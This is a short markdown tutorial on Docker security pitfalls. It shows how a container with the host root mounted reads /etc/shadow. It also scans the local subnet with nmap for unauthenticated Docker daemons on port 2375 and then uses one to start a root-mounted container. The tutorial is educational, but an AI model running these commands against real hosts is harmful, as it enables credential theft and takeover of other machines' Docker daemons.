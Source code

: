 # Docker security attention points

## see impact of a container with host root dir shared
Launch bash on debian container.

**Note** :  On windows it's the file of the virtual machine that is running docker containers

**On Windows**
> ```bash
> docker run --rm -it -v //://host debian:stretch //bin/bash
> ```
>
> under windows /host actually points to the root of the virtual machine that is hosting docker
> You can access to the windows host C drive by typing
> ```bash
> dir=/host/host_mnt/c
> cd $dir
> ls -al
> ```

**On linux like systems**
> ```bash
> docker run --rm -it -v /:/host debian:stretch /bin/bash
> ```
>
> under linux /host actually points to the root of your host machine
> ```bash
> dir=/host
> cd $dir
> ls -al
> ```

Remark that you can see the host files. Note that you are root on the container and on the host as docker service is run as root.

## see encrypted password file

You will see how to see encrypted password as well as other information such as account or password expiration values

```bash
cat /host/etc/shadow
cat /host/etc/password
```

## create a file
> ```bash
> touch $dir/tutoDockerSecurityHole
> echo "check on your host that the file $dir/tutoDockerSecurityHole is created"
> # delete the file
> rm "$dir/tutoDockerSecurityHole"
> # exit to leave bash session
> ```

## access to docker daemon
Let's go a little bit further ...

in the case where docker exposes the port 2375 (noauth) or 2375(tls)

Your dev environment should be configured like this.

Also for application that manages containers, the use of this port is needed.

> **NMap tool**
>
> Nmap ("Network Mapper") is a free and open source (license) utility for network discovery and security auditing. 
> Many systems and network administrators also find it useful for 
> tasks such as network inventory, managing service upgrade schedules, 
> and monitoring host or service uptime. Nmap uses raw IP packets in 
> novel ways to determine what hosts are available on the network, 
> what services (application name and version) those hosts are offering, 
> what operating systems (and OS versions) they are running, what type of 
> packet filters/firewalls are in use, and dozens of other characteristics. 
> It was designed to rapidly scan large networks, but works fine against 
> single hosts. Nmap runs on all major computer operating systems, and 
> official binary packages are available for Linux, Windows, and Mac OS X. 

> **For Windows users**
> 
> you can use wsl for the nmap part

install nmap
```bash
sudo apt update
sudo apt install nmap
```

launch this command to see that your docker 2375 port is open
```bash
nmap -p2375 localhost -nvvvv
```
you should see at the end of the logs
>        PORT     STATE SERVICE REASON
>       2375/tcp open  docker  syn-ack

find your default gateway
```bash
ip route show | grep default | awk '{ print $4 }'     
```

scan all the ips on your current sub domain
```bash
subDomain=$(ip route show | grep default| awk '{ print $4 }'| awk  -F  "." '{ print $1"."$2"."$3 }' | head -1)
nmap --open -p 2375 ${subDomain}.1-254 -oG - 2>/dev/null | grep "/open" | awk '{ print $2 }'
```

You can see docker ps output by running
```bash
docker -H tcp://<place here one of the ip listed in the previous command>:2375 ps
```
   
now launch a container using this port
```bash
docker -H tcp://127.0.0.1:2375 run --rm -it -v //://host debian:stretch //bin/bash
```

see if we have access to /etc/shadow
```bash
cat /etc/shadow
```
exit to leave bash session

## TODO gosu